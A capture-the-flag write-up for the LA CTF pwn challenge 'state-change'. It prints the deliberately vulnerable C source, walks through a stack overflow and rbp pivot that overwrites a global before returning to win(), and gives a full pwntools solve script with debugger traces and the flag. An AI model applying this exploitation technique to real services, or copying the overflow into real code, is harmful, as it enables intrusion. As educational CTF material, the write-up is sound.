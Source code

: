 # State-change

pwn/state-change  
asdiml  
146 solves / 311 points

Changes in state are like rustlings in the wind

`nc chall.lac.tf 31593`



## Vulnerability

Here is the source code of the challenge:

```
#include <stdio.h>
#include <string.h>

char buf[0x500]; // Wow so useful
int state;
char errorMsg[0x70];

void win() {
    char filebuf[64];
    strcpy(filebuf, "./flag.txt");
    FILE* flagfile = fopen("flag.txt", "r");

    /* ********** ********** */
    // Note this condition in win()
    if(state != 0xf1eeee2d) {
        puts("\ntoo ded to gib you the flag");
        exit(1);
    }
    /* ********** ********** */
    
    if (flagfile == NULL) {
        puts(errorMsg);
    } else {
        char buf[256];
        fgets(buf, 256, flagfile);
        buf[strcspn(buf, "\n")] = '\0';
        puts("Here's the flag: ");
        puts(buf);
    }
}

void vuln(){
    char local_buf[0x20];
    puts("Hey there, I'm deaddead. Who are you?");
    fgets(local_buf, 0x30, stdin);
}

int main(){

    state = 0xdeaddead;
    strcpy(errorMsg, "Couldn't read flag file. Either create a test flag.txt locally and try connecting to the server to run instead.");

    setbuf(stdin, 0);
	setbuf(stdout, 0);

    vuln();
    
    return 0;
}
```

The vulnerability is obvious:

```
void vuln(){
    char local_buf[0x20];
    puts("Hey there, I'm deaddead. Who are you?");
    fgets(local_buf, 0x30, stdin);
}
```

There's 0x10 bytes of overflow in the function `vuln()`, which means we can overflow the stack and overwrite `old rbp` as well as the return address of the function `vuln()`.

## Solution

A no-brainer return option would be `win()` because in that function we get the flag. However, there's one more thing to do before that, which is changing the global variable `state` from `0xdeaddead` to `0xf1eeee2d` because of the following protection:

```
    if(state != 0xf1eeee2d) {
        puts("\ntoo ded to gib you the flag");
        exit(1);
    }
```

> changing the global variable `state` from `0xdeaddead` to `0xf1eeee2d`

To achieve this, we can return to `fgets` to write `state` to `0xf1eeee2d`. More specifically, setting the address of `state` to be the destination buffer of `fgets`, then send `0xf1eeee2d`, just like the following:

```
 ► 0x4012e3 <vuln+46>    call   fgets@plt                   <fgets@plt>
        s: 0x404530 (buf+1264) ◂— 0
        n: 0x30
        stream: 0x7f8f8e8438e0 (_IO_2_1_stdin_) ◂— 0xfbad208b

```

So…how can we do it?  
The trick is to overwrite `old rbp` to `address of state+0x20` before returning to `fgets`, because the destination buffer is loaded from `rbp-0x20`, `state` + 0x20 - 0x20 becomes the address of state!

```
 ► 0x4012d7 <vuln+34>    lea    rax, [rbp - 0x20]                 RAX => 0x404540 (state) ◂— 0xdeaddead
```

Then, after the `fgets` function finishes, we can see that `state` and its surrounding data indeed got overwritten

```
pwndbg> tele 0x404540
00:0000│ rax rcx 0x404540 (state) ◂— 0xf1eeee2d00
01:0008│-018     0x404548 ◂— 0x4242424242424200
02:0010│-010     0x404550 ◂— 0x4242424242424242 ('BBBBBBBB')
... ↓            2 skipped
05:0028│+008     0x404568 (errorMsg+8) ◂— 0x4011d642
```

But unfortunately there's a null-byte somehow, that corrupts the desired value. I am not sure where does the null-byte come from, it might have been due to my specific payload:

```
payload = flat(
	b'A' * 0x20,
	p64(0x404560), # rbp
	p64(0x4012d0)
)
payload2 = flat(
	p64(0xf1eeee2d),
	b'B'* 0x20,
	p64(0x4011d6)
)
p.send(payload)
p.send(payload2)
```

Or just because that's a newline character added and changed to null byte

Anyway, what I did to avoid that was to modify my second payload to become the following:

```
payload = flat(
	b'A' * 0x20,
	p64(0x404550), # rbp
	p64(0x00000000004012d0)
)
payload2 = flat(
	b'A'* (0x10 - 1),
	p64(0xf1eeee2d),
	b'B'* 0x10,
	p64(0x00000000004011d6)
)
```

I set `old rbp` to be `state+0x10`, then the destination buffer of fgets become `state-0x10`, then I send `0x10 - 1` bytes (where the -1 byte reserve a space for the null-byte) to pad up to where `state` locates. Finally, overwrite it with `0xf1eeee2d` and set the `rbp-0x8` aka return address to starting address of `win()`, that solves the problem!

```
pwndbg> tele 0x404530
00:0000│ rax rcx 0x404530 (buf+1264) ◂— 0x4141414141414100
01:0008│-018     0x404538 (buf+1272) ◂— 0x4141414141414141 ('AAAAAAAA')
02:0010│-010     0x404540 (state) ◂— 0xf1eeee2d
03:0018│-008     0x404548 ◂— 0x4242424242424242 ('BBBBBBBB')
04:0020│ rbp     0x404550 ◂— 0x4242424242424242 ('BBBBBBBB')
05:0028│+008     0x404558 —▸ 0x4011d6 (win) ◂— endbr64
```


## Full solve script

```
from pwn import * 

binary = "./chall"

p = process(binary)

p = remote("chall.lac.tf", 31593)
s = '''
b * vuln+51
b * win
'''

#gdb.attach(p, s)


p.recvuntil(b"Who are you?\n")
payload = flat(
	b'A' * 0x20,
	p64(0x404550), # rbp
	p64(0x00000000004012d0)
)
payload2 = flat(
	b'A'* (0x10 - 1),
	p64(0xf1eeee2d),
	b'B'* 0x10,
	p64(0x00000000004011d6)
)
p.send(payload)
p.send(payload2)
p.interactive()
```

## flag

```
└─$ python solve.py 
[+] Starting local process './chall': pid 914328
[+] Opening connection to chall.lac.tf on port 31593: Done
[*] Switching to interactive mode
Here's the flag: 
lactf{1s_tHi5_y0Ur_1St_3vER_p1VooT}
[*] Got EOF while reading in interactive
```



